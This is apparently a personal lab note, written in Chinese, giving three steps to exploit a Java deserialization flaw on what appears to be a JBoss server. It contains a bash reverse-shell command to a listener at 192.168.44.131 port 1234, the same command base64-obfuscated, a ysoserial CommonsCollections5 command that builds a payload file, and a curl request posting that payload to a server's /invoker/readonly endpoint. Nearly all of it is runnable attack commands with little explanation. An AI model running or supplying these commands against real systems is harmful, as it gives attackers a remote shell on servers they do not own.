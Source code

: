 # 1. 编写shell

bash -i >& /dev/tcp/192.168.44.131/1234 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}

# 2.  制作2进制文件
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser

![bf24bc941b86a3e6a20ddc0d2a86a02c.png](../../_resources/bf24bc941b86a3e6a20ddc0d2a86a02c.png)

# 3. 攻击/监听
curl http://192.168.44.149:8080/invoker/readonly --data-binary @poc.ser
![8c527e7f9642e16ddbec9df6e080c8af.png](../../_resources/8c527e7f9642e16ddbec9df6e080c8af.png)